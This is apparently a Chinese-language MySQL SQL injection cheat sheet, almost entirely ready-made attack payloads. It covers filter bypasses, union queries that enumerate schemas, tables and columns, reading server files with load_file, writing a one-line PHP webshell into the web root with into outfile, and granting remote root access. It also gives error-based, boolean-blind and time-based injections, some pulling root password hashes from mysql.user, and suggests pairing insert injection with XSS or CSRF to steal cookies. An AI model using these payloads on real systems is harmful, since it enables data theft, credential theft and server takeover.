 **0x00 mysql一般注入(select)**

1. 注释符
`#`  
`/*`
`—`

2. 过滤空格注入
使用/**/或()或+代替空格
%0c = form feed, new page  
%09 = horizontal tab  
%0d = carriage return  
%0a = line feed, new line

3. 多条数据显示
concat()  
group_concat()  
concat_ws()

4. 相关函数
system_user() 系统用户名  
user() 用户名  
current_user 当前用户名  
session_user()连接数据库的用户名  
database() 数据库名  
version() MYSQL数据库版本  
load_file() MYSQL读取本地文件的函数  
@@datadir 读取数据库路径  
@@basedir MYSQL 安装路径  
@@version_compile_os 操作系统 Windows Server 2003

GRANT ALL PRIVILEGES ON *.* TO ‘root’@’%’ IDENTIFIED BY ‘123456’ WITH GRANT OPTION;

5. mysql一般注入语句
猜字段数
order by n/*  
查看mysql基本信息  
and 1=2 union select 1,2,3,concat_ws(char(32,58,32),0x7c,user(),database(),version()),5,6,7/*  
查询数据库  
and 1=2 union select 1,schema_name,3,4 from information_schema.schemata limit 1,1/*  
and 1=2 union select 1,group_concat(schema_name),3,4 from information_schema.schemata/*  
查询表名  
and 1=2 union select 1,2,3,4,table_name,5 from information_schema.tables where table_schema=数据库的16进制编码 limit 1,1/*  
and 1=2 union select 1,2,3,4,group_concat(table_name),5 from information_schema.tables where table_schema=数据库的16进制编码/*  
查询字段  
and 1=2 union select 1,2,3,4,column_name,5,6,7 from information_schema.columns where table_name=表名的十六进制编码 and table_schema=数据库的16进制编码 limit 1,1/*  
and 1=2 union select 1,2,3,4,group_concat(column_name),5,6,7 from information_schema.columns where table_name=表名的十六进制编码 and table_schema=数据库的16进制编码/*  
查询数据  
and 1=2 union select 1,2,3,字段1,5,字段2,7,8 from 数据库.表/*
判断是否具有读写权限  
and (select count(*) from mysql.user)>0/*  
and (select count(file_priv) from mysql.user)>0/*

6. mysql读取写入文件
必备条件：
读：file权限必备
写：1.绝对路径 2.union使用 3. 可以使用”
————————-读———————-
mysql3.x读取方法  
create table a(cmd text);  
load data infile ‘c:\\xxx\\xxx\\xxx.txt’ into table a;  
select * from a;
mysql4.x读取方法  
除上述方法还可以使用load_file()  
create table a(cmd text);  
insert into a(cmd) values(load_file(‘c:\\ddd\\ddd\\ddd.txt’));  
select * from a;
mysql5.x读取方法  
上述两种都可以
读取文件技巧：  
load_file(char(32,26,56,66))  
load_file(0x633A5C626F6F742E696E69)
————写————————–
into outfile写文件
union select 1,2,3,char(这里写入你转换成10进制或16进制的一句话木马代码),5,6,7,8,9,10,7 into outfile ‘d:\web\90team.php’/*  
union select 1,2,3,load_file(‘d:\web\logo123.jpg’),5,6,7,8,9,10,7 into outfile ‘d:\web\90team.php’/*

**0x01 mysql一般注入(insert、update)**

mysql一般请求mysql_query不支持多语句执行，mysqli可以。

insert注入多使用报错注入!

1.如果可以直接插入管理员可以直接使用!

insert into user(username,password) values(‘xxxx’,’ xxxx’),(‘dddd’,’dddd’)/* ‘);

2.如果可以插入一些数据，这些数据会在网页中显示，我们可以结合xxs和csrf来获取cookies或getshell

update注入同上

**0x02 mysql报错注入**

1. and(select 1 from(select count(*),concat((select (select (语句)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) and 1=1

语句处填入一般一句，如：SELECT distinct concat(0x7e,0x27,schema_name,0x27,0x7e) FROM information_schema.schemata LIMIT 0,1

2. and+1=(select+*+from+(select+NAME_CONST((语句),1),NAME_CONST((语句),1))+as+x)–

3.update web_ids set host=’www.0x50sec.org’ where id =1 aNd (SELECT 1 FROM (select count(*),concat(floor(rand(0)*2),(substring((Select (语句)),1,62)))a from information_schema.tables group by a)b);

4.insert into web_ids(host) values((select (1) from mysql.user where 1=1 aNd (SELECT 1 FROM (select count(*),concat(floor(rand(0)*2),(substring((Select (语句)),1,62)))a from information_schema.tables group by a)b)));  
**  
0x03 mysql一般盲注**

使用ascii

AND ascii(substring((SELECT password FROM users where id=1),1,1))=49

使用正则表达式

and 1=(SELECT 1 FROM information_schema.tables WHERE TABLE_SCHEMA=”blind_sqli” AND table_name REGEXP ‘^[a-n]’ LIMIT 0,1)

**0x04 mysql时间盲注**

1170 union select if(substring(current,1,1)=char(11),benchmark(5000000,encode(‘msg’,’by 5 seconds’)),null) from (select database() as current) as tbl

UNION SELECT IF(SUBSTRING(Password,1,1)=’a’,BENCHMARK(100000,SHA1(1)),0) User,Password FROM mysql.user WHERE User = ‘root’
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTMyNjU2MDAwNl19
-->